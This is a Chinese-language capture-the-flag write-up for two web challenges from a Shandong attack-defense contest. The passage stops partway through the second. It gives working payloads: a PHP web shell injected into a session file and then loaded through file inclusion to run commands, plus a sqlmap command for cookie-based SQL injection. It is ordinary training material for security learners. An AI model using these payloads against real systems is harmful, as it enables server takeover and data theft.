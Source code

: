 ```yaml
---
layout: post
title: 山东省新一代攻防赛wp
---
```


{:toc}

> 地点：聊城职业学院 ， u1s1门口的小摊挺多的（哧溜～) 

![1](https://tva1.sinaimg.cn/large/0081Kckwly1gl0bqccqiaj30u00u04qp.jpg)

# web

## web1 （反正就是有很多页面，你能发现其中的关键信息吗？）

知识点（细心最重要！尽量每个操作都要抓包分析）

- 信息收集
- 文件包含
- 代码审计
- session特性

打开题目，只有一个登录表单

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ktzlbxj30tc16eaz7.jpg" alt="image-20201124101408979" style="zoom: 33%;" />

二话不说，直接dirsearch一波

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ntxh1vj315b0u0aux.jpg" alt="image-20201124101705278"  />

/php.php 是个phpinfo

访问`/register.php`注册个账户去登录，登录处抓包

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01vv26xrj31ye0q2qbz.jpg" alt="image-20201124102449438"  />

后面简单测了测发现登录处过滤了单引号，sql注入是不行了，继续往下跟

![image-20201124102851131](https://tva1.sinaimg.cn/large/0081Kckwly1gl0202hdpaj32iw0mo1a8.jpg)

发现好像进入了后台界面，同时发现了hint

​	`<!--hint: m4nageee.php-->`

但是这还是个302跳转包，跳到了`/user.php?page=guest` 可见程序对登录用户做了判断。

简单测了下`page`参数发现有任意文件包含

![image-20201124103737192](https://tva1.sinaimg.cn/large/0081Kckwly1gl0296n5ofj31uo0p2n6l.jpg)

包含m4nageee.php，发现后台有个表单

![image-20201124111402262](https://tva1.sinaimg.cn/large/0081Kckwly1gl03b2hmdvj30s40nqgpa.jpg)

于是读`m4nageee.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/profile233.html";

?>
```

访问`templates/profile233.html`查看源代码

![image-20201124110331496](https://tva1.sinaimg.cn/large/0081Kckwly1gl0304hz6nj30m40a6ac1.jpg)

看到了这段代码就懂了，解释一下：

如果`nick`参数为空，就把`nick`的值赋给`session`的`nick`的值，众所周知，`session`是存储在服务器端的

而且`nick`的值没有做过滤，所以当`session`可控时，就可以传入恶意代码

构造payload

```php
http://47.105.128.249:36001/user.php?nick=<?php @system($_GET[c]);?>&page=m4nageee
```

session保存路径在之前发现的phpinfo文件可以查到

![image-20201124112704975](https://tva1.sinaimg.cn/large/0081Kckwly1gl03on7kkfj30g401at8q.jpg)

当前session

![image-20201124113029636](https://tva1.sinaimg.cn/large/0081Kckwly1gl03s6pv4dj30e005emxh.jpg)

包含session文件，getshell

```
http://47.105.128.249:36001/user.php?page=../../../var/lib/php5/sess_90qqo7oj3p9ca8jdsousbk8ld0&c=cat fl*
```



![image-20201124114630721](https://tva1.sinaimg.cn/large/0081Kckwly1gl048um28xj31h407kgnl.jpg)

`flag{c785407bfa1c768e50373480ad5c2765}`

## web2（听说你会sqlmap，出题人专门出了道能用sqlmap跑的题，你会跑吗？）

知识点

- 信息收集
- header头注入

![image-20201130104507991](https://tva1.sinaimg.cn/large/0081Kckwly1gl706wedckj30yg0owt9x.jpg)

burp抓包登录（简单的测试了下username和password并无sql注入）

![image-20201130104649869](https://tva1.sinaimg.cn/large/0081Kckwly1gl708mik27j31gy0u0nkg.jpg)

源代码中发现`test:test`用户密码，尝试登录

![image-20201130104850253](https://tva1.sinaimg.cn/large/0081Kckwly1gl70asbhclj31gy0u07pz.jpg)

这里发现response返回包中设置了cookie：

```
username=test
password=test
```

简单的测了下，存在SQL注入并且是sqlite数据库

![image-20201130152012411](https://tva1.sinaimg.cn/large/0081Kckwly1gl7852agsyj319o0540tp.jpg)

直接用sqlmap跑一波

```bash
sqlmap -u "http://47.105.128.249:36002/index.php" --headers "Cookie: username=test*; password=test" --dbms sqlite --random-agent --level 3 --batch
```

直接跑发现跑不出来
